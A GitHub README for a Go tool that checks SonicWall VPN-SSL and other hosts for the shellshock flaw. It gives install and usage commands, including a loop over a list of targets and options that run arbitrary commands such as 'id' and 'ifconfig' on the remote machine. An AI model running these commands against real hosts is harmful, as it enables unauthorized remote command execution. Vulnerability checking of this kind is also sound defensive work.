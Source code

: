 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./main -i ; done
```
### Simple command - Default -c echo
```
▶ ./main -i x.x.x.x
```
### With commands
```
▶ ./main -i x.x.x.x -c id
▶ ./main -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gocheckshock/blob/main/goshock_checker.png" width="70%"></p>
